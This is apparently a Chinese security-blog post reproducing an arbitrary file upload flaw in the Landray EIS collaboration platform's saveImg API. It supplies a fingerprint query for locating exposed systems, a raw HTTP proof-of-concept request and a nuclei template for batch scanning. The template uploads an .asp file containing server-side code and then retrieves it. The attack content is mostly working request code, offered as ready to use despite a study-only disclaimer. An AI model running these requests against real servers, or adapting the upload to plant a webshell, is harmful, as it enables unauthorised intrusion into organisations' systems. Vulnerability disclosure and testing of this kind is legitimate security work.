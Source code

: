 #  蓝凌EIS智慧协同系统任意文件上传漏洞复现

原创 Mr.Song  [ 蚁剑安全实验室 ](javascript:void\(0\);)

**蚁剑安全实验室** ![]()

微信号 AntSwordSec

功能介绍 专注于网络安全技术分享，漏洞情报、漏洞复现、渗透测试、src挖掘、应急响应、逆向、安全开发、红蓝对抗、内网横向等。

____

___发表于_

收录于合集 #漏洞复现 12个

**免责声明：**
该文章仅供用于技术讨论与学习。请勿利用文章所提供的相关技术从事非法测试，若利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果均与文章作者及本公账号无关。

 **一、漏洞描述**
蓝凌智慧协同平台eis是由深圳市微达软件有限公司开发,集合了非常丰富的模块,满足组织企业在知识,协同,项目管理系统建设等需求的一款OA系统，该系统saveImg存在任意文件上传漏洞。
**二、漏洞复现**  
1、鹰图查询语法：web.body="欢迎登录智慧协同平台"2、登录页面如下：

![]()

3、拼接URL/eis/service/api.aspx?action=saveImg进行测试，如访问返回无回显状态，则存在该漏洞。  

![]()

 ****

4、使用如下poc进行测试，查看响应包中返回的文件访问路径  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     POST /eis/service/api.aspx?action=saveImg HTTP/1.1Host:IPUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36Content-Length: 167Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryxdgaqmqu  
    ------WebKitFormBoundaryxdgaqmquContent-Disposition: form-data; name="file"filename="ceshi.txt"Content-Type: text/html  
    ceshi------WebKitFormBoundaryxdgaqmqu--

![]()

5、访问上传文件之后返回的文件路径  

![]()

6、nuclei批量yaml文件

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    id: landray-eis-saveImg-upload  
    info:  name: landray-eis-saveImg-upload  author: mhb17  severity: criticalvariables:  filename: "{{to_lower(rand_base(10))}}"  boundary: "{{rand_base(16)}}"http:  - raw:      - |        POST /eis/service/api.aspx?action=saveImg HTTP/1.1        Host: {{Hostname}}        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0        Accept-Encoding: gzip, deflate        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8        Connection: close        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2        Upgrade-Insecure-Requests: 1        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary{{boundary}}        Content-Length: 208                ------WebKitFormBoundary{{boundary}}        Content-Disposition: form-data; name="file"filename="{{filename}}.asp"        Content-Type: text/html                <% response.write("hello world")%>        ------WebKitFormBoundary{{boundary}}--  
          - |        GET /files/editor_img/{{aspfilenammme}} HTTP/1.1        Host: {{Hostname}}        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0    extractors:      - type: regex        part: body        name: aspfilenammme        group: 1        internal: true        regex:          - '/files/editor_img/([0-9-a-z]+/\w+\.asp)'     matchers:      - type: dsl        dsl:          - 'status_code==200 && contains(body_1,"editor_img") && contains(body_2,"hello world")'  
    

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

